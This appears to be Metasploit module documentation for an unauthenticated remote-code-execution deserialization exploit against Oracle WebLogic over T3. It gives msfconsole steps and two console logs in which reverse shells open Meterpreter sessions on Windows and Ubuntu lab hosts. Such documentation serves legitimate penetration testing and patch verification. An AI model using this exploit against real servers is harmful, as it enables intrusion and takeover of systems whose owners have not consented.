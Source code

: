## Vulnerable Application

  There exists a Java object deserialization vulnerability
  in multiple versions of WebLogic.

  Unauthenticated remote code execution can be achieved by
  sending a serialized `BadAttributeValueExpException`
  object over the T3 protocol to vulnerable versions of
  WebLogic. Leveraging an `ExtractorComparator` enables
  the ability to trigger `method.invoke()`, which will
  execute arbitrary code.

  This module has been tested on WebLogic versions
  `v12.2.1.4.0`, `v12.2.1.3.0`, and `v12.1.3.0.0`.

### Installation

  WebLogic versions can be downloaded from [here](https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html).

  Some version of Java 8 JDK is required to be installed on the server.
  This module has been tested successfully using [jdk8u251](https://www.oracle.com/java/technologies/javase-jdk8-downloads.html).

  Installation instructions for WebLogic can be found [here](https://docs.oracle.com/cd/E24705_01/doc.91/e21052/appx_install_wls.htm#EOPWC376).

  On step 10 of the installation instructions, keep the
  `Run Quickstart` box checked and click `done`. A new window
  should pop up. Select `Create a new domain` -> `next`.
  Ensure `Basic WebLogic Server Domain` is selected and click `next`.
  Create credentials and select `next`. Domain mode can be either
  `Production` or `Development`, then click `next`. Click `next` again
  and select `Create`. Click `next` a couple more times, then click
  `finish`.

  To start WebLogic, execute the `startWebLogic` script in
  `Oracle/Middleware/Oracle_Home/user_projects/domains/base_domain/`.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/misc/weblogic_deserialize_badattr_extcomp```
  4. Do: ```set RHOSTS <target_ip>```
  5. Do: ```set LHOSTS <attacker_ip>```
  6. Do: ```set TARGET <0 for Windows or 1 for *NIX>```
  7. Do: ```run```
  8. You should get a shell.

## Scenarios
### WebLogic `v12.2.1.4.0` on Windows 10

  ```
  msf5 > use exploit/multi/misc/weblogic_deserialize_badattr_extcomp
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > set rhosts 172.16.215.181
  rhosts => 172.16.215.181
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > set lhost 172.16.215.1
  lhost => 172.16.215.1
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [*] 172.16.215.181:7001 - Executing automatic check (disable AutoCheck to override)
  [*] 172.16.215.181:7001 - WebLogic version detected: 12.2.1.4.0
  [+] 172.16.215.181:7001 - The target appears to be vulnerable.
  [*] 172.16.215.181:7001 - Sending handshake...
  [*] 172.16.215.181:7001 - Formatting payload...
  [*] 172.16.215.181:7001 - Sending object...
  [*] Sending stage (176195 bytes) to 172.16.215.181
  [*] Meterpreter session 1 opened (172.16.215.1:4444 -> 172.16.215.181:49724) at 2020-06-02 14:03:07 -0500

  meterpreter > getuid
  Server username: DESKTOP-AQT4EG1\space
  meterpreter > sysinfo
  Computer        : DESKTOP-AQT4EG1
  OS              : Windows 10 (10.0 Build 18362).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```

### WebLogic `v12.2.1.4.0` on Ubuntu 18.04

  ```
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > set target 1
  target => 1
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > set rhosts 172.16.215.180
  rhosts => 172.16.215.180
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [*] 172.16.215.180:7001 - Executing automatic check (disable AutoCheck to override)
  [*] 172.16.215.180:7001 - WebLogic version detected: 12.2.1.4.0
  [+] 172.16.215.180:7001 - The target appears to be vulnerable.
  [*] 172.16.215.180:7001 - Sending handshake...
  [*] 172.16.215.180:7001 - Formatting payload...
  [*] 172.16.215.180:7001 - Sending object...
  [*] Sending stage (980808 bytes) to 172.16.215.180
  [*] Meterpreter session 2 opened (172.16.215.1:4444 -> 172.16.215.180:50522) at 2020-06-02 14:03:43 -0500
  [*] 172.16.215.180:7001 - Command Stager progress - 101.56% done (715/704 bytes)

  meterpreter > getuid
  Server username: no-user @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
  meterpreter > sysinfo
  Computer     : 172.16.215.180
  OS           : Ubuntu 18.04 (Linux 5.3.0-51-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```
